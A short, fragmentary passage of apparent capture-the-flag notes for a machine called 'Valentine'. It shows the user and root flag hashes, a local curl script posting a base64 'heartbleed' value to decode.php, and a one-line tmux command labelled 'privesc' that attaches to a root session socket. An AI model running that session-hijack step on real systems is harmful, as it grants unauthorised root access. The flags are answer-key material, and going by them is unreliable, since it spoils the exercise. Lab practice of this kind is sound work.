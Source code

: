 hype@Valentine:~/Desktop$ cat user.txt
e6710a5464769fd5fcd216e076961750


root@Valentine:~# cat root.txt                                                                                                       
f1bb6d759df1f272914ebbc9ed7765b2
root@Valentine:~# cat curl.sh
/usr/bin/curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0' -H 'Referer: https://127.0.0.1/decode.php' -H 'Content-Type: application/x-www-form-urlencoded' \
    -b 'PHPSESSID=n12acqnj0efoq5etm5d12k6j85' \
    --data-binary $'text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' \
    'https://127.0.0.1/decode.php' >  /dev/null 2>&1



tmux privesc

/usr/bin/tmux -S /.devs/dev_sess